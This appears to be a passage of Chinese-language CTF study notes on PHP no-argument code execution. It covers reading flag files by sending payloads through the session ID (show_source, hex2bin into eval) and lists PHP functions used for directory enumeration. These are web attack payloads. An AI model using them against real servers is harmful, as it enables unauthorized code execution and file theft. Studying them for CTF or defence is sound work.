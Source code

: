 

`?code=print_r(session_id(session_start()));`

显示phpsessid



- 将print_r改成showsource     #读取文件源代码

	`?code=show_source(session_id(session_start()));`

- 用burp修改phpsessid的值为`./flag`

	#可以读取flag的源代码



- 修改外部函数为**eval**时,修改phpsessid的值为命令'phpinfo();'无法执行,要先把命令**hex**编码转换成十六进制,写入phpsessid

	再用**hex2bin()**将十六进制转换成命令

	`?code=show_source(hex2bin(session_id(session_start())));`



## scandir读取

### scandir() (5,7,8)

列出指定路径中的文件和目录(php5,php7,php8)

`print_r(scandir('C:'));`         #列出c盘目录下文件

### getcwd()  (4,5,7,8)

取得当前的工作目录

### current(),next() (4,5,7,8)

**current()**返回数组中的当前值(第一项)

和pos()类似

**next()**返回数组中的第二项

### array_reverse() (4,5,7,8)

返回倒序的数组

### array_flip(),array_rand()

`array_flip()`把数组的值和键对调

`array_rand()`从数组中随机取出一个键值或多个

### chdir()

系统调用函数(同**cd**)

用于改变当前目录
